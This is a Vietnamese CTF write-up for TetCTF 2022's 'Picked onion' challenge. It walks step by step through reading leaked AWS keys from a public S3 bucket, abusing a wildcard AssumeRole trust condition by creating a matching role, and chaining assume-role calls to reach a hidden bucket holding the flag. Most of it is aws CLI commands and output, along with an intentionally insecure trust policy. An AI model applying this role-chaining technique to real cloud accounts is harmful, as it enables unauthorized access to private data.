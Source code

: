 ```yaml
---
title: TetCTF 2022 | Web Exploitation | Picked onion
date: 2022-01-03-15:17:00 +0700
---
```


# Picked onion

![chall](https://user-images.githubusercontent.com/82533607/147910715-ae6e2f99-a294-4397-88bb-878d50561751.png)

## Reconaisance

Truy cập vào URL, ta thấy có một mục có tên là `Secret`, thử truy cập và thấy một bức ảnh. Ctrl U (view-source) thì thấy bức ảnh `href` là một `s3 bucket` có tên là `secret-tetctf`:


![secret_img](https://user-images.githubusercontent.com/82533607/147911410-fa0489b2-e116-4a55-8f8c-3ebfe9588b4f.png)

Điều đáng chú ý ở đây, là khi sửa URL thành `https://secret-tetctf.s3.amazonaws.com/` thì ta thấy:


![first_leak](https://user-images.githubusercontent.com/82533607/147911956-a3d47c09-f901-4263-8f59-76a4fab0140e.png)

Có thể chia làm 3 đoạn như sau:

```
secret-tetctf1000false
I've_Got_a_Secret.jpg2021-12-31T07:12:14.000Z"8176cb55798ee6c7df58496312ca82d8"12949STANDARD
secret2021-12-31T07:15:50.000Z"1ace2f1a8925799880ad32ef47b3e9d9"1239STANDARD
```

Đây là một lỗi Access Control của S3 Bucket, tại đây, ta có thể thấy còn một file `secret` nữa, mình sẽ tải nó về bằng URL: `https://secret-tetctf.s3.amazonaws.com/secret` và đọc nó:


![secret_file](https://user-images.githubusercontent.com/82533607/147912573-6842e886-3c0d-4e54-a0bf-2e909c343f7e.png)

Ta thu được `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY` và `REGION_NAME` của IAM User được sử dụng cho `dynamodb`.

## Exploit

Ban đầu khi đọc qua source code thì mình thấy nó giống hoàn toàn với [bài viết này](https://ctrsec.io/index.php/2021/12/19/python-deserialization-on-integrated-aws-ddb-flask-app/) của anh Chi Tran, nhưng tất nhiên, nếu vậy thì đơn giản quá:

![fail_1](https://user-images.githubusercontent.com/82533607/147912969-f153ba6d-61a9-491f-8b65-1ee78a979c63.png)

Có thể thấy, vấn đề ở đây là IAM User ddb_user mà ta ddnag sử dụng không có quyền hạn gì mấy để thực hiện exploit như bài viết ở trên.

Sau một hồi lục lọi trên doc của AWS thì mình thấy điều này:

```console
$ aws iam list-roles
{
    "Roles": [
        ...
        {
            "Path": "/",
            "RoleName": "CTF_ROLE",
            "RoleId": "AROAXNIS54O****************",
            "Arn": "arn:aws:iam::************:role/CTF_ROLE",
            "CreateDate": "2021-12-29T15:30:56Z",
            "AssumeRolePolicyDocument": {
                "Version": "2008-10-17",
                "Statement": [
                    {
                        "Effect": "Allow",
                        "Principal": {
                            "AWS": "*"
                        },
                        "Action": "sts:AssumeRole",
                        "Condition": {
                            "StringLike": {
                                "aws:PrincipalArn": "arn:aws:iam::*:role/*-Accessing_Tet_CTF_Flag*"
                            }
                        }
                    }
                ]
            },
            "Description": "CTF_ROLE",
            "MaxSessionDuration": 3600
        }
    ]
}

```

Cùng hiểu một chút về đoạn JSON ở trên nhé?

Đây là một policy cho việc AssumeRole, ta thu được khá nhiều thông tin, đặc biệt nhất là Condittion cho việc AssumeRole, đó là chuỗi PrincipalArn trong request phải chứa một chuỗi `<anything>-Accessing_Tet_CTF_Flag<anything>`, cụ thể hơn thì chính xác cái user gửi request AssumeRole phải mang một IAM Role có tên với định dạng kể trên, như vậy, để thực hiện exploit, ta cần:

- Tạo một IAM User.

- Tạo một IAM Role có tên dưới dạng `<anything>-Accessing_Tet_CTF_Flag<anything>` mà IAM User vừa tạo có thể AssumeRole được.

- AssumeRole `<anything>-Accessing_Tet_CTF_Flag<anything>` vào IAM User đã tạo và lưu các creditials được trả về.

- AssumeRole `CTF_ROLE` ở trên và IAM User đã tạo, lưu lại creditials được trả về.

Giải thích lại một chút về ARN trong AWS, ARN là một chuỗi có dạng: `arn:partition:service:region:account:resource`, khi IAM User gửi bất kì request nào có yêu cầu credential, các chuỗi ARN sẽ được gửi đi, và chúng ta có thể sử dụng các chuỗi ARN này để viết policy phân quyền theo IAM Role cho các IAM User với điều kiện cụ thể.

Quay lại với vấn đề chính, vì không có AWS account để tạo IAM User nên mình đã inbox mượn anh Chi Tran một IAM User.

Sử dụng `aws configure` và điền các thông tin vào:

```console
$ aws configure
AWS Access Key ID [********************]: AKIAXNIS************
AWS Secret Access Key [********************]: VmK2ZWUVZ************************
Default region name [us-east-1]: 
Default output format [json]: 
```

Sau đó, tạo một file `Trust-policy.json`, sử dụng làm Policy cho Role mới (đừng làm theo ở thực tế, vì lý do bảo mật):

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "*" // allow all, no condittion
      },
      "Action": "sts:AssumeRole",
      "Condition": {}
    }
  ]
}
```

Và sử dụng `aws iam create-role --role-name <anything>-Accessing_Tet_CTF_Flag<anything> --assume-role-policy-document file://Trust-policy.json` để tạo Role, nhớ note lại ARN ở output

AssumeRole:

```console
$ aws sts assume-role --role-arn "arn:aws:iam::***************:role/<anything>-Accessing_Tet_CTF_Flag<anything>" --role-session-name <anyname>
{
    "Credentials": {
        "AccessKeyId": "access_key_id_here",
        "SecretAccessKey": "secret_access_key_here",
        "SessionToken": "long_token_here",
        "Expiration": "2022-01-03T09:02:51Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "******************:<anyname>",
        "Arn": "arn:aws:sts::***************:assumed-role/<anything>-Accessing_Tet_CTF_Flag<anything>/<anyname>"
    }
}
```

Lưu credential vào Env:

```console
$ export AWS_ACCESS_KEY_ID=<"AccessKeyId">
$ export AWS_SECRET_ACCESS_KEY=<"SecretAccessKey">
$ export AWS_SESSION_TOKEN=<"SessionToken">
```

Tiến hành AssumeRole `CTF_ROLE`:

```console
$ aws sts assume-role --role-arn "arn:aws:iam::***************:role/CTF_ROLE" --role-session-name <anyname>
{
    "Credentials": {
        "AccessKeyId": "access_key_id_here",
        "SecretAccessKey": "secret_access_key_here",
        "SessionToken": "long_token_here",
        "Expiration": "2022-01-03T09:02:51Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "******************:<anyname>",
        "Arn": "arn:aws:sts::***************:assumed-role/CTF_ROLE/<anyname>"
    }
}
```

Và lại lưu credentials:

```console
$ export AWS_ACCESS_KEY_ID=<"AccessKeyId">
$ export AWS_SECRET_ACCESS_KEY=<"SecretAccessKey">
$ export AWS_SESSION_TOKEN=<"SessionToken">
```

Lúc này, ta đã có Role CTF_ROLE, nếu chưa chắc chắn, có thể kiểm tra bằng `aws sts get-caller-identity`, nếu thấy CTF_ROLE thì đã thành công.

Tiến hành list các bucket:

```console
$ aws s3api list-buckets --query "Buckets[].Name"
[
    "secret-tetctf",
    "tet-ctf-secret"
]
```

Vậy là ta thấy thêm một bucket nữa tên là `tet-ctf-secret`, kiểm tra xem trên đó có gì:

```console
$ aws s3 ls s3://tet-ctf-secret
2021-12-29 22:18:42         29 flag
```

Có file flag, thử lấy nó về và đọc:

```console
$ aws s3 cp s3://tet-ctf-secret/flag flag
download: s3://tet-ctf-secret/flag to ./flag 

$ cat flag
TetCTF{AssumE_R0le-iS-A-MuSt}
```

Done, flag: `TetCTF{AssumE_R0le-iS-A-MuSt}`

> Cảm ơn anh Chi Tran, đồng thời là người ra đề của chall này, đã cho em mượn IAM User và chỉ dẫn em trong quá trình giải, cũn như là học thêm kiến thức mới!
